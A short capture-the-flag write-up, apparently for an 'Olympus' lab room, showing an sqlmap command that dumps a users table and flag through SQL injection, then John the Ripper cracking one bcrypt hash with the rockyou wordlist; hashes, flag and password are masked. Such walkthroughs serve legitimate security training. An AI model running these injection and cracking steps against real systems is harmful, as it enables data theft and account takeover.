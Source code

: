 ![image](https://user-images.githubusercontent.com/6504854/193456724-c810f856-7975-48bd-83ab-06163a2044b8.png)

![image](https://user-images.githubusercontent.com/6504854/193456835-6e460e63-0271-4046-8633-5a1827dde5b2.png)

![image](https://user-images.githubusercontent.com/6504854/193456841-cfc19573-f778-4391-b04d-266cf1b6739a.png)


```
sqlmap -r sql1.txt --batch --dump

Database: olympus
Table: users
[3 entries]
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+
| user_id | randsalt | user_name  | user_role | user_email             | user_image | user_lastname | user_password    | user_firstname |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+
| 3       | <blank>  | prometheus | User      | prometheus@olympus.thm | <blank>    | <blank>       | $2y+++++++++++++ | prometheus     |
| 6       | dgas     | root       | Admin     | root@chat.olympus.thm  | <blank>    | <blank>       | $2y+++++++++++++ | root           |
| 7       | dgas     | zeus       | User      | zeus@chat.olympus.thm  | <blank>    | <blank>       | $2y+++++++++++++ | zeus           |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+

Database: olympus
Table: flag
[1 entry]
+---------------------------+
| flag                      |
+---------------------------+
| flag{S******************} |
+---------------------------+

```
🚩 I got flag and 3 credentials.

```
john prometeus_hash -w=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s*********       (?)     
Session completed. 
```
![image](https://user-images.githubusercontent.com/6504854/193457395-a34281ac-e979-4924-8c33-026dde6ea36b.png)
